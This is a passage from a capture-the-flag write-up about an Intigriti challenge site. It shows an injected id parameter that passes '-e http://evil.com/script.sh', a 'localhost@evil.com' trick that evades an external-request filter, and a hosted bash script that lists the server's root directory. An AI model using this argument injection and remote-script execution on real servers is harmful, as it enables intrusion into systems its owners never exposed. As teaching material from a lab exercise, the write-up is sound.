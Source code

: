 >https://lovelykittenpictures.ctf.intigriti.io/cat_info.php?id=1%20-e%20http://evil.com/script.sh
>
>[*] External requests are not allowed! 🐈

Unfortunately, like the help menu said, requests to external domains are not allowed. Or are they?
Perhaps we just need to trick the application into thinking it's a request to localhost.
A common technique to try is using something like `localhost@evil.com/`. Sometimes, this is
enough to trick the application but still have the URL resolve to `evil.com`. Here,
localhost is treated as a username for the evil.com domain.

>https://lovelykittenpictures.ctf.intigriti.io/cat_info.php?id=1%20-e%20http://localhost@evil.com/script.sh
>
>[*] Showing results 🐈

Nice! The bypass works! Now we just need to host a script to run on our domain evil.com. First, I chose to
make a script to read the contents of a directory.

```bash
#!/bin/bash

search_dir=/

for entry in "$search_dir"/*
do
  echo "$entry"
done
```

<div align="center"><a href="/assets/1337UPCTF/lovelycats2.png"><img src="/assets/1337UPCTF/lovelycats2.png"></a></div>
<figcaption align=center><b>Figure 5.3: The Contents of the Root Directory</b></figcaption>
&nbsp;
